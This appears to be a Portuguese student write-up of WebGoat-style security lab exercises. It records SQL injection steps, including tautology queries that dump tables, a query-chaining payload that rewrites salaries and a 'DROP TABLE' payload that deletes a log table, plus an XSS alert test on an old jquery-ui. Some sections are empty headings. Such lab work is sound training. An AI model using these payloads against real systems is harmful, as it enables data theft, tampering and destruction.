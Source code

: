 ### Injection

#### Pergunta 1.1-SQL Injection

##### 2

Retornar o departamento do empregado Bob Franco.

Para tal utilizou se a Query: `SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'`

Resultado obtido : Departamento de marketing.

##### 3

Alterar o departamento do empregado Tobi Barnett para 'Sales'.

Para tal utilizou se a Query: `UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'`

Resultado obtido : 89762 Tobi Barnett Sales 77000 TA9LL

##### 4

Adicionar a coluna "phone" na tabela "employees".

Para tal utilizou se a Query: `ALTER TABLE Employees ADD phone varchar(20)`

Resultado obtido : ALTER TABLE employees ADD phone varchar(20).

##### 5

Dar permissões a um determinado grupo de utilizadores.

Para tal utilizou se a Query: `GRANT ALTER TABLE TO 'UnauthorizedUser'`

Resultado obtido :  GRANT ALTER TABLE TO UnauthorizedUser.

##### 9-String Sql Injection

Devolver todos os utilizadores da tabela onde os campos foram preenchidos por: 'Smith', 'or' e '1'='1'

Para tal utilizou se a Query: `SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'`

Resultado obtido : São obtidas todas as entradas da tabela pois 1=1 é uma verdade universal.

##### 10-Numeric Sql Injection

Neste passo retorna-se todos os dados da tabela 'users'. Como *User_Id* é sustetível a SQL Injection elaboramos a query
com Login_Count: 1 e User_Id: 1 or 1=1 como se pode observar em baixo.

Para tal utilizou se a Query: `SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1`

Resultado obtido : São obtidas todas as entradas da tabela pois 1=1 é uma verdade universal.

##### 11- Comprometer confidencialidade com String Sql Injection

Neste passo obtem-se todos os dados da tabela 'employees'.

Para tal utilizou se a Query: `SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""`

Resultado obtido :  "You have succeeded!You have successfully compromised the confidentiality of data by viewing internal 
information that you should not have access to. Well done!"

##### 12- Comprometer integridade com Query Chaining

Neste passo, demonstra-se, usando query chaining, como é possível alterar os salários.

Para tal utilizou se a Query: `1' or 1=1; update employees set salary=125000 where first_name='John' and
last_name='Smith';--`

Resultado obtido : "Well done!Now you are earning the most money.And at the same time you sucessfully compromised the integrity
of data by changing the salary!"

##### 13- Comprometer a disponibilidade

Neste passo pretende-se apagar os registos feitos pelo utilizador.

Para tal utilizou se a Query: `Smith'; DROP TABLE access_log;--`

Resultado obtido : Apaga a tabela e todos os dados dentro da mesma.

### XSS

#### Pergunta 1.2-XSS

###  Quebra na Autenticação

#### Pergunta 1.3-Password Reset

### Componentes vulneráveis

#### Pergunta 1.4-Vulnerable components

##### 5

Neste ponto usamos diferentes versões do jquery-ui : jquery-ui:1.10.2 e jquery-ui:1.12.2. Introduzimos o comando
`<script>alert('XSS')</script>` nas duas versões sendo na primeira executado e ,portanto, explorável. Na segunda versão não foi 
executado.

##### 12

Para este passo apenas foi adicionado o comando `<java.lang.Integer>96</java.lang.Integer>`.


